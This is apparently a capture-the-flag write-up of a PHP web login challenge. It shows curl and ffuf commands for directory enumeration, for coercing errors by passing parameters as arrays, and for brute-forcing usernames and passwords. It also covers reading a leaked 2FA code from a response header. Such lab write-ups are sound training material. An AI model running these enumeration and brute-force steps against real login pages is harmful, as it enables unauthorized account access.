

# Visiting the site

The site has a basic login page, sending the form to `login.php`.


# Dirbuster

Dirbuster finds a few other pages as well, but they are not producing output or redirecting back to login.

```
---- Scanning URL: http://10.10.100.181:36528/ ----
+ http://10.10.100.181:36528/config.php (CODE:200|SIZE:0)
+ http://10.10.100.181:36528/index.php (CODE:200|SIZE:578)
+ http://10.10.100.181:36528/login.php (CODE:200|SIZE:50)
+ http://10.10.100.181:36528/logout.php (CODE:302|SIZE:0)
+ http://10.10.100.181:36528/main.php (CODE:302|SIZE:0)
+ http://10.10.100.181:36528/profile.php (CODE:302|SIZE:0)
```

# Users

The server is running PHP, passing the username parameter as arrays producing some error output.

```bash
curl -X POST "http://10.10.100.111:36528/login.php" --data-urlencode 'username[]=a' --data-urlencode 'password=b'
```

```
<br />
<b>Warning</b>:  Array to string conversion in <b>/var/www/html/login.php</b> on line <b>11</b><br />
Incorrect username and/or password!
```

Building a [wordlist](https://github.com/danielmiessler/SecLists/tree/master/Usernames) from male and female names, converting them lowercase, then fuzzing the auth endpoint with it and doing the same on the password side 

```bash
cat wordlists/seclists/Usernames/Names/malenames-usa-top1000.txt wordlists/seclists/Usernames/Names/femalenames-usa-top1000.txt | tr A-Z a-z  > names.txt
ffuf -fr "Incorrect username and/or password!" -u http://10.10.100.111:36528/login.php -X POST -d "username=FUZZ&password[]=" -H "Content-Type: application/x-www-form-urlencoded" -w names.txt
```



# Passwords

The login is waiting a few seconds and then printing some errors again.

```bash
(while IFS= read -r line; do echo "-----" $line "----"; curl -s -v -X POST "http://10.10.100.111:36528/login.php" --data-urlencode "username=$line" --data-urlencode "password[]="; done < users.txt) > users_dump.txt
```

```
----- david ----
<br />
<b>Fatal error</b>:  Uncaught TypeError: password_verify(): Argument #1 ($password) must be of type string, array given in /var/www/html/login.php:18
Stack trace:
#0 /var/www/html/login.php(18): password_verify(Array, '$2y$10$wzozKE16...')
#1 {main}
  thrown in <b>/var/www/html/login.php</b> on line <b>18</b><br />
```

There are 2 (3) types of entries.
- `david` has a proper `bcrypt` hash: `password_verify(Array, '$2y$10$wzozKE16...')`
- everyone else has an invalid hash: `password_verify(Array, 'password6H]HzRL...')`, just different number inside
- `maria` has a slightly different but still invalid hash: `password_verify(Array, 'H]HzRL()LPN53:1...')`

This suggests that only `david` can actually login. The `password_verify` function returns false for invalid hash.

Fuzzing the password now is possible, starting with a small list, because of the delay.

```bash
ffuf -fr "Incorrect username and/or password!" -u http://10.10.100.111:36528/login.php -X POST -d "username=david&password=FUZZ" -H "Content-Type: application/x-www-form-urlencoded" -w wordlists/seclists/Passwords/xato-net-10-million-passwords-10.txt
```


The credentials are `david:dragon`.

# 2FA

Logging in with the credentials is redirecting to `login2.php` and is asking a 2FA code now.


The code is leaked in the headers. `X-TWO-FACTOR-AUTHENTICATION: 330139`


Which we can use to log in.


And the flag is under the profile.


# Flag
`CQ25{I_R34LLy_l1k3_pL4y1ng_w1th_d3l4y}`

# Remarks
The challenge can be solved just paying attention to the timings and enumerating more, but coercing some errors was shorter and easier for me.

The description should not mention `No need to brute-force`, as you clearly need to enumerate a lot of things.